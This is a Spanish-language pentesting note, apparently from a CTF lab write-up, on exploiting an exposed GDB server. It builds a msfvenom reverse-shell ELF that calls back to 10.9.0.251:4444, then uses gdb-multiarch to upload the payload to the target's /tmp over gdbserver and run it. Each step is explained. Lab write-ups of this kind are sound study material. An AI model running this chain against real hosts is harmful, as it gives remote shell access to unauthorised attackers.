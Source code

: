 **GDB (GNU Debugger)** es una herramienta de software libre diseñada para depurar programas en diferentes lenguajes de programación, incluyendo C, C++, Ada, entre otros. Es una herramienta esencial en el desarrollo de software para encontrar y corregir errores o bugs en programas complejos.


# Ejemplo explotación servicio GDB

Creamos el payload y le asignamos permisos de ejecución
```bash
sudo msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.9.0.251 LPORT=4444 PrependFork=true -f elf -o binary.elf
```
![[Pasted image 20240613120316.png]]

Este comando es lo mismo que gdb pero en mi caso estamos usando un sistema aarch64 entonces no es compatible con gdb pero el funcionamiento es el mismo simplemente añadimos que especficamos la arquitectura, una vez ejecutado todos estos comandos obtendriamos acceso a la maquina vicitma
```
gdb-multiarch binary.elf
set architecture i386:x86-64
target extended-remote 10.10.127.37:6048
remote put binary.elf /tmp/binary.elf
set remote exec-file /tmp/binary.elf
run
```
![[Pasted image 20240613130854.png]]
![[Pasted image 20240613131116.png]]

## 1. gdb-multiarch binary.elf

Este comando inicia el depurador GDB configurado para múltiples arquitecturas, y carga el archivo ejecutable `binary.elf` para su depuración.

- `gdb-multiarch`: Es una versión de GDB que soporta múltiples arquitecturas, útil cuando la arquitectura del archivo que deseas depurar es diferente de la arquitectura de la máquina en la que estás ejecutando GDB.
- `binary.elf`: Es el archivo ejecutable que deseas depurar.

## 2. set architecture i386:x86-64

Este comando configura GDB para que interprete el archivo ejecutable como un binario de la arquitectura `x86-64`.
- `set architecture i386:x86-64`: Cambia la arquitectura actual que GDB usa para interpretar el ejecutable. `i386:x86-64` se refiere a la arquitectura de 64 bits basada en x86.
## 3. target extended-remote 10.10.127.37:6048
Este comando establece una conexión remota extendida a un servidor de depuración en una máquina remota.

- `target extended-remote`: Indica que deseas establecer una conexión remota extendida. Esto permite a GDB controlar el proceso de depuración en la máquina remota.
- `10.10.127.37:6048`: Especifica la dirección IP y el puerto donde está ejecutándose el servidor de depuración (como `gdbserver`) en la máquina remota.

## 4. remote put binary.elf /tmp/binary.elf
Este comando transfiere el archivo `binary.elf` desde la máquina local a la máquina remota.
- `remote put binary.elf /tmp/binary.elf`: Envía el archivo local `binary.elf` a la ruta `/tmp/binary.elf` en la máquina remota.

## 5. set remote exec-file /tmp/binary.elf
Este comando indica a GDB que el archivo ejecutable que se debe ejecutar y depurar en la máquina remota es `/tmp/binary.elf`.
- `set remote exec-file /tmp/binary.elf`: Especifica el archivo ejecutable en la máquina remota que GDB debe usar para la depuración.

## 6. run
Este comando inicia la ejecución del archivo ejecutable en la máquina remota bajo el control de GDB.
- `run`: Ejecuta el programa en el contexto del depurador GDB, permitiendo la inspección y manipulación del proceso mientras se ejecuta.

### Proceso Completo
1. **Inicia GDB multi-arquitectura** y carga el ejecutable.
2. **Configura la arquitectura** del ejecutable a x86-64.
3. **Establece una conexión remota** a un servidor de depuración en otra máquina.
4. **Transfiere el ejecutable** desde la máquina local a la remota.
5. **Indica el archivo ejecutable** a usar en la máquina remota.
6. **Inicia la ejecución** del programa en la máquina remota para su depuración.

[[MAQUINA AIRPLANE (Fuzzing web, explotación LFI con script en python,  acceso cargando paylaod por GDB Server, escalada de privilegios con vulnerabilidad SUID y escalada a root revisando permisos sudo)]]

